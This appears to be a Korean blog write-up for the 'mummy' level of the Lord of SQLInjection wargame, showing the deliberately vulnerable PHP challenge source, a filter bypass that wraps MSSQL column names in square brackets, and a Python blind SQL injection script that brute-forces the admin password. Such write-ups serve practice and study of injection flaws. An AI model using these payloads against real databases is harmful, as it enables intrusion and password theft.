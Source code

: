 ```yaml
---
title : "LOS Lv.44 mummy (풀이 봄)"
categories : [Wargame, rubiya]
tags: ["공백 우회 못할 때, 컬럼을 []로 감싸면 가능", 풀이 봄]
---
```


## mummy
<hr style="border-top: 1px solid;"><br>
```php
query : select

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect("mummy");
  if(preg_match('/master|sys|information|;|\(|\//i', $_GET['query'])) exit("No Hack ~_~");
  for($i=0;$i<strlen($_GET['query']);$i++) if(ord($_GET['query'][$i]) <= 32) exit("%01~%20 can used as whitespace at mssql");
  $query = "select".$_GET['query'];
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result[0]) echo "<h2>Hello anonymous</h2>";

  $query = "select pw from prob_mummy where id='admin'";
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("mummy");
  highlight_file(__FILE__);
?>
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

컬럼 부분은 +로 우회가 안되는데, 정보를 못찾아서 결국 풀이 봄.

컬럼 이름을 ```select[id]from[test]where+id='admin'``` 이런 식으로 ```[]```로 감싸줄 수 있음.

비밀번호를 알아내야 해서 Blind sqli를 해야함.
: ```?query=[id]from[prob_mummy]where%2bid='admin'and[pw]like%2b'0__%'```

<br>

```python
import requests
import string

url='https://los.rubiya.kr/chall/mummy_2e13c2a4483d845ce2d37f7c910f0f83.php'
headers={'Content-Type':'application/x-www-form-urlencoded'}
cookies={'PHPSESSID':'[redacted]'}

check="0123456789"+string.ascii_lowercase
pw=''

for i in range(1,20) :
    for j in check :
        payload={'query' : "[id]from[prob_mummy]where+id='admin'and[pw]like+'"+pw+j+"%'"}
        res=requests.get(url, headers=headers, params=payload, cookies=cookies)
        if "<h2>Hello anonymous</h2>" in res.text:
            pw+=j
            print("pw : "+pw) # 0c3cc245
            break
        
print("MUMMY Clear!")
```

<br><br>
<hr style="border: 2px solid;">
<br><br>
